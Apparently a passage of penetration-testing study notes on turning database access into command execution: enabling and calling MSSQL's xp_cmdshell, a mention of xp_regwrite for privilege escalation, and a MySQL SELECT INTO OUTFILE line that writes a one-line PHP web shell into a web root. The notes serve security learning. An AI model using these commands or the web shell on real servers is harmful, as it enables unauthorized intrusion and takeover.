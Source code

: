 ##### MSSQL
---

MSSQL has a extended stored procedures called xp_cmdshell which allow us to execute system commands using SQL. Keep in mind the following about xp_cmdshell:

- `xp_cmdshell` is a powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the `Policy-Based Management` or by executing `sp_configure`
- The Windows process spawned by `xp_cmdshell` has the same security rights as the SQL Server service account
- `xp_cmdshell` operates synchronously. Control is not returned to the caller until the command-shell command is completed

#### XP_CMDSHELL
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

`xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry.

---

## Write Local Files
we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using `SELECT INTO OUTFILE` in the webserver directory. Then we can browse to the location where the file is and execute our commands.
#### MySQL - Write Local File
```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
